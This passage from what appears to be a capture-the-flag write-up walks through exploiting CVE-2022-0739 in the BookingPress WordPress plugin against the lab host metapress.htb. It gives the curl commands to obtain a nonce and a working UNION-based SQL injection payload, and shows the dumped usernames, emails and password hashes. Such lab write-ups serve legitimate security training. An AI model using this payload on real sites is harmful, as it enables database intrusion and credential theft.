 ```console

[+] Finished: Sun Apr 30 09:25:19 2023
[+] Requests Done: 168
[+] Cached Requests: 10
[+] Data Sent: 51.45 KB
[+] Data Received: 373.783 KB
[+] Memory used: 245.566 MB
[+] Elapsed time: 00:00:07
```

We got some useful findings:
- An out of theme theme called *twentytwentyone*
- An out of theme plugin called *bookingpress-appointment-booking*

Since I don't have a WPScan API token for vulnerabilities detections I just used Google to follow the more promising path, looking for vulnerabilities into the booking plugin.
It looks like there is a vulnerability (CVE-2022-0739) described [here](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357) for any version < 1.0.11 so it looks like we can exploit it. 

First we need to obtain a valid *wp-nonce* token from the website:

```console
$ curl -vs http://metapress.htb/events/ 2&>1 | grep wpnonce   
...                                
var postData = { action:'bookingpress_front_get_timings', service_id: selected_service_id, selected_date: formatted_date,_wpnonce:'5ca3823e1a' };
```

Now that we got our wordpress nonce token (*5ca3823e1a*), we can try the SQL injection to extract some data from the database.

```console
$ curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=5ca3823e1a&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,NULL,NULL,NULL,NULL,NULL,NULL from wp_users -- -'     

HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 30 Apr 2023 13:46:21 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"admin","bookingpress_category_id":"admin@metapress.htb","bookingpress_service_name":"$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.","bookingpress_service_price":"$0.00","bookingpress_service_duration_val":null,"bookingpress_service_duration_unit":null,"bookingpress_service_description":null,"bookingpress_service_position":null,"bookingpress_servicedate_created":null,"service_price_without_currency":0,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"},{"bookingpress_service_id":"manager","bookingpress_category_id":"manager@metapress.htb","bookingpress_service_name":"$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70","bookingpress_service_price":"$0.00","bookingpress_service_duration_val":null,"bookingpress_service_duration_unit":null,"bookingpress_service_description":null,"bookingpress_service_position":null,"bookingpress_servicedate_created":null,"service_price_without_currency":0,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```

